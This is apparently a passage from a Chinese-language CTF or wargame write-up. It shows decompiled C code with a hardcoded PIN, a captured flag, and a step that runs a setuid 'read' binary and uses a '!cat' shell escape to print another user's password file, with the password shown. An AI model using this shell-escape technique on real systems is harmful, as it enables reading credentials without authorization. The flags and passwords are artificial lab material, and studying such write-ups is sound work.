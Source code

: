 直接 base64 外带，然后反编译即可

```c title="反编译结果"
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+1Ch] [rbp-4h] BYREF

  printf("Enter PIN code:\n");
  __isoc99_scanf("%i", &v4);
  if (v4 == 5880)
    printf("DsYzpJQrCEndEWIMxWxu");
  else
    puts("\nNO :_(");
  return 0;
}
```

## User - alala

### flag - 02

```plaintext
^gTdGmkwhDrCqKrDQpxH^
```

### 任务目标

```plaintext title="mission.txt"
User althea loves reading Linux help.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 1 root   alala  4.0K Jul 26  2023 .
drwxr-xr-x 1 root   root   4.0K Jul 26  2023 ..
-rw-r--r-- 1 alala  alala   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 alala  alala  3.5K Jan 25 00:37 .bashrc
-rw-r--r-- 1 alala  alala   807 Apr 23  2023 .profile
-r--r----- 1 althea althea   21 Jul 26  2023 althea_pass.txt
-rw-r----- 1 root   alala    22 Jul 26  2023 flagz.txt
-rw-r----- 1 root   alala   164 Jul 26  2023 mission.txt
-rwS--s--- 1 root   alala   16K Jul 26  2023 read
```

```bash title="Exploit it"
./read
# 进入后输入以下命令
!cat althea_pass.txt
# ObxEmwisYjERrDfvSbdA
```

## User - althea
